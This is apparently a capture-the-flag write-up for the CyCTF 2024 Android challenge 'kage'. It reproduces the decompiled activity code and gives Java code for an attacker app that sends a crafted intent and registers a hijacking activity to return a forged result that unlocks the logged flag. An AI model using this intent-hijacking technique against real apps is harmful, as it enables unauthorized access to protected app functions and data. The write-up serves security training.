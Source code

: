 ```yaml
---
title: "Mobile: kage"
date: "2024-11-03"
tags:
    - android
thumbnail: "/assets/img/thumbnail/cyctf2024.png"
---
```



# solution
---
We are given in this challenge 2 APKs the main challenge is the sealing version of the apk with the real flag and the second one is the fake version with the fake flag used for testing.
The fake version contains a fake flag, but once u get the approach and get the flag you can use the same approach to get the real flag from the sealing app.

I got the source code using `Jadx`.
First thing i do usually is looking in `AndroidMainfest.xml` file.
<img src="/assets/img/cyctf qual 24/capture5.png">
In this challenge the MainActivity is the interesting part and has all what we need to solve the challenge, Let's look at it.
```java
package com.cyctf.kage;

import android.content.Intent;
import android.os.Bundle;
import android.util.Log;
import android.widget.ImageView;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;

/* loaded from: classes3.dex */
public class MainActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        if (getIntent() != null && "Secret_Action".equals(getIntent().getAction())) {
            Intent intent = new Intent("Tsukuyomi");
            try {
                Toast.makeText(this, "Be Careful, Something was sent to you", 1).show();
                startActivityForResult(intent, 1337);
                return;
            } catch (Exception e) {
                e.printStackTrace();
                Toast.makeText(this, "No App Can Handle My Shadow!!", 1).show();
                return;
            }
        }
        Toast.makeText(this, "Invalid action!.", 1).show();
    }

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, android.app.Activity
    public void onActivityResult(int i, int i2, Intent intent) {
        super.onActivityResult(i, i2, intent);
        ImageView myImageView = (ImageView) findViewById(R.id.imageView);
        if (intent != null && getIntent() != null && getIntent().getBooleanExtra("Unlock", false) && intent.getIntExtra("RegistrationNumber", -1) == 5192) {
            myImageView.setImageResource(R.drawable.image);
            Toast.makeText(this, "Check Logs For Your Reward!!", 1).show();
            Log.d("Jester", new String("Cyctf{Fake_Flag_don't_Submit}"));
        }
    }
}
```
We have `onCreate` function at which
- This activity is started by intent whose action is `Secret_Action`
- Then if the previous condition is true, a new intent is created whose action is `Tsukuyomi` and this new intent is used to send the start activity using `startActivityForResult(intent, 1337)`
- `startActivityForResult()`: can start activity and also expects a response from the activity it started, It receives this response through `onActivityResult()`
> Note: The response sent by us is sent through `setResult(RESULT_OK,intent)`
- We see in the code `onActivityResult(int i, int i2, Intent intent)` which accepts the response as we said and it sends the flag if the condition `(intent != null && getIntent() != null && getIntent().getBooleanExtra("Unlock", false) && intent.getIntExtra("RegistrationNumber", -1) == 5192)` is true
- This condition has
    - `intent` which is the parameter to `onActivityResult()` function and it's sent by us through `setResult()` function
    - `getIntent()` which is first intent we used to start this application whose action is `Secret_Action`

So our approach to solve the challenge will be
<img src="/assets/img/cyctf qual 24/capture6.png">
Creating an application which will do the following
- sending an intent with `action: Secret_Action` (to trigger the condition in onCreate function) and extra bool data `Unlock: true` (to trigger the condition in onActivityResult)

```java
Intent intent = new Intent("Secret_Action");
intent.setClassName("com.cyctf.kage","com.cyctf.kage.MainActivity");
intent.putExtra("Unlock",true);
startActivity(intent);
```
The code above in the MainActivity of the app we created
- The target's MainActivity starts and creates an intent whose `action: Tsukuyomi` and sends it using `startActivityForResult(intent, 1337);`
- We will receive it by having an application with intent filter to accept intent whose `action: Tsukuyomi`

```java
<activity
    android:name=".Hijack"
    android:exported="true">
    <intent-filter>
        <action android:name="Tsukuyomi" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```
Above is the intent filter of the activity we used to receive the intent whose `action: Tsukuyomi`
> Note: hijack activity is another activity other than the MainActivity of our app
- Then after receiving this intent, create an intent with extra Int data `RegistrationNumber: 5192`
- Send this intent using `setResult` function as response to the target
```java
public class Hijack extends AppCompatActivity {
    
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_hijack);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

            Intent resultIntent = new Intent("android.intent.action.test");
            resultIntent.putExtra("RegistrationNumber", 5192);
            setResult(RESULT_OK,resultIntent);
            finish();
        }
    }
```

- This intent will be received by the target through `onActivityResult` and will trigger the condition to log the flag 
- Watch the logs after running the app.
<img src="/assets/img/cyctf qual 24/capture7.png">
GG, I wish you enjoyed the write up